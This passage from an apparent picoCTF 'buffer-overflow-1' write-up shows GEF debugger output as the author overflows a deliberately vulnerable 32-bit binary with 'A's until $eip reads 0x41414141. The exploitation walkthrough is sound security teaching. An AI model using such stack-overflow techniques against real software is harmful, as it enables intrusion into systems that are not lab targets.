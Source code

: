     0x80492e5 &lt;main+33&gt;        mov    eax, DWORD PTR [ebx-0x4]
    0x80492eb &lt;main+39&gt;        mov    eax, DWORD PTR [eax]
    0x80492ed &lt;main+41&gt;        push   0x0
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: "vuln", <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x80492d7</span> in <span style="color:#FF8A18"><b>main</b></span> (), reason: <span style="color:#962AC3"><b>BREAKPOINT</b></span></pre></td></tr></table></figure>

Analyzing this breakpoint, if we look at the arrow on the assembly code, we can see that its address is the exact same as the `$eip` (`0x80492d7`). Let's try overflowing this register by passing an unhealthy amount of `A`s into the program:

<figure class="highlight text"><table> <tr><td class="code"><pre><span style="color:#47D4B9"><b>gef➤  </b></span>r
Starting program: /home/kali/ctfs/pico22/buffer-overflow-1/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
<span style="color:#367BF0">0x41414141</span> in <span style="color:#FEA44C">??</span> ()
[ Legend: <span style="color:#EC0101"><b>Modified register</b></span> | <span style="color:#D41919">Code</span> | <span style="color:#5EBDAB">Heap</span> | <span style="color:#9755B3">Stack</span> | <span style="color:#FEA44C">String</span> ]
<span style="color:#585858"><b>──────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">registers</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>$eax   </b></span>: 0x41      
<span style="color:#EC0101"><b>$ebx   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$ecx   </b></span>: 0x41      
<span style="color:#EC0101"><b>$edx   </b></span>: 0xffffffff
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd130</span>  →  <span style="color:#FEA44C">"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"</span>
<span style="color:#EC0101"><b>$ebp   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$esi   </b></span>: 0x1       
<span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80490e0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; endbr32 </b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>[!]</b></span> Cannot disassemble from $PC
<span style="color:#EC0101"><b>[!]</b></span> Cannot access memory at address 0x41414141
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: "vuln", <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x41414141</span> in <span style="color:#FF8A18"><b>??</b></span> (), reason: <span style="color:#962AC3"><b>SIGSEGV</b></span></pre></td></tr></table></figure>
